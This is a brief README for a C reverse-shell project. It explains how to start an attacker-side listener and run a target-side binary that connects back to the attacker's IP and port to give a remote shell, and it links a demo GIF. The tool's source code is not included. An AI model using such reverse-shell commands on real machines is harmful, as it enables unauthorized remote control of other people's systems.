 # reverseShell
Scripts of C which after compiling can be used by an 
**Attacker** 
to gain a shell of
**Target** 
machine.

## Usage
### 1. Setup a server and listen for incoming connections.
On your machine setup a server and start listening on a port.

``` 
./attacker 8080 
```

### 2. Execute client script and setup a connection to the server
You can do this by simply executing the target compiled file

```
./target 192.168.0.2 8080
```

Now you should have a prompt on server machine.

## Demo
![Alt Text](https://github.com/Yashvendra/reverseShell/blob/master/Demo/video-gif.gif)

## License
MIT © y_k_007

